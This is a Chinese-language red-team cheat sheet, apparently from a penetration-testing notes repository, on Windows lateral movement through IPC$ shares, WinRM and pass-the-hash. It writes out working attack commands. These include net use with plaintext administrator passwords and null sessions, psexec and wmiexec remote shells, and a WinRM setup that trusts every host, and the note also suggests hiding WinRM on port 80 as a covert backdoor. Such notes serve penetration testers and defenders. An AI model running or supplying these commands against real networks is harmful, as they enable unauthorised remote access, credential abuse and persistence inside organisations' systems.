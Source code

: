 关于 IPC$ 应用的基本知识点可见笔记 [IPC$](../../../Integrated/Windows/笔记/IPC$.md)

**相关文章**
- [IPC$入侵大全](https://www.cnblogs.com/backlion/p/7401609.html)
- [内网渗透 | 基于IPC的横向移动](https://sec.thief.one/article_content?a_id=033847e03bd6e49dbc730c7315d5b4d6)
- [关于IPC和PTH用户权限问题](https://ares-x.com/2020/03/10/%E5%85%B3%E4%BA%8EIPC%E5%92%8CPTH%E7%94%A8%E6%88%B7%E6%9D%83%E9%99%90%E9%97%AE%E9%A2%98/)

**IPC$ 的利用条件**

- 139，445 端口开启
- 管理员开启了默认共享

**攻击方式**
```bash
net use \\192.168.1.1\c$ “12345@12345qw” /user:ffffffff0x\administrator
net use \\192.168.1.1\c$ "123456" /user:administrator         # 建立的非空连接
net use \\192.168.1.1\c$  "" /user:administrator              # 空连接，无密码
net use \\192.168.1.1\c$ /del   # 删除建立的 IPC 连接
net use                         # 查看本机连接共享情况

psexec.exe \\192.168.1.1 cmd    # 通过 psexec 工具进行会话连接执行
psexec.exe \\192.168.1.1 cmd -u administrator -p 123456

csript.exe wmiexec.vbs /shell 192.168.1.1 administrator 123456
```

---

### WinRM

关于 WinRM 的基本知识点可见笔记 [WinRM](../../../Integrated/Windows/笔记/WinRM.md)

cmd 下,本地也配置允许任意机器连接,然后访问远程主机 winrm
```
Winrm quickconfig
winrm set winrm/config/client @{TrustedHosts="*"}
winrs -r:http://192.168.1.1:5985 -u:administrator -p:Abcd12345 ipconfig
```

在 IIS 监听 80 端口的情况下，可以通过设置 WinRM 监听端口为 80，再设置监听 URI 的方式来复用 80 端口。以此作为隐蔽的后门。

---

### PTH

path-the-hash,中文直译过来就是 hash 传递，在域中是一种比较常用的攻击方式。

利用前提是我们获得了某个用户的密码哈希值，但是解不开明文。这时我们可以利用 NTLM 认证的一种缺陷，利用用户的密码哈希值来进行 NTLM 认证。在域环境中，大量计算机在安装时会使用相同的本地管理员账号和密码。因此，如果计算机的本地管理员账号密码相同，攻击者就能使用哈希传递攻击登录内网中的其他机器，扩展权限。

**相关文章**
- [hash传递攻击研究](http://sh1yan.top/2019/05/19/Hash-Passing-Attack-explore/)
- [Passing-the-Hash to NTLM Authenticated Web Applications](https://labs.f-secure.com/blog/pth-attacks-against-ntlm-authenticated-web-applications/) - PTH 在 Web 应用中的应用
- [浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/)
- [KB22871997是否真的能防御PTH攻击？](https://www.anquanke.com/post/id/193150)
- [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)
- [【技术分享】从hash传递攻击谈相关Windows安全机制](https://www.anquanke.com/post/id/85995)

